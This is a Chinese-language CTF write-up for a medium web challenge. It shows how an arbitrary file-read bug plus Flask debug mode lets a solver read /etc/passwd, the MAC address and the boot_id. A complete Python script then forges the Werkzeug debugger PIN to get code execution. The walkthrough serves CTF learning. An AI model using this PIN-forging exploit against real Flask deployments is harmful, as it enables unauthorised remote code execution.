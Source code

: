 # Help Newnew Find Flag

**Author:** Rieß(Xp0int)

**Difficulty:** Medium

**Category:** Web

## 题目描述

你能帮 newnew 找到 flag 吗？

## 题目解析

**暴露端口：`80`**

题目存在任意文件读取，当试图读取 `/flag` 的时候会报错，此处说明 debug 打开

flask debug 为 True，且存在任意文件读取漏洞，则可以 pin 码伪造

1. `/etc/passwd`，获取运行此 app.py 的用户名: `newnew`

2. app.py 的绝对路径，可从报错信息得到

3. `/sys/class/net/eth0/address`

mac 地址的十进制数 `9a:1c:85:c0:4c:04` 通过 python 命令行来转换成十进制 `print(int('9a1c85c04c04',16))`

`02:42:c0:a8:0f:02` => `2485723336450`

4. 对于非 docker 机每一个机器都会有自已唯一的 id，linux 的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_id`，有的系统没有这两个文件。对于 docker 机则读取 `/proc/self/cgroup`，其中第一行的 `/docker/` 字符串后面的内容作为机器的 id

`/proc/sys/kernel/random/boot_id` => `ceb43f9d-2c5e-4bce-b351-551ddfe48b78`

此题读不出 `/proc/self/cgroup`，那读 `/proc/sys/kernel/random/boot_id` 就行

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'newnew',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485723336450',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ceb43f9d-2c5e-4bce-b351-551ddfe48b78'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

计算出 pin 码，在 flask 报错界面填入就可以 rce

![](https://s1.ax1x.com/2023/03/22/ppdgsSS.png)
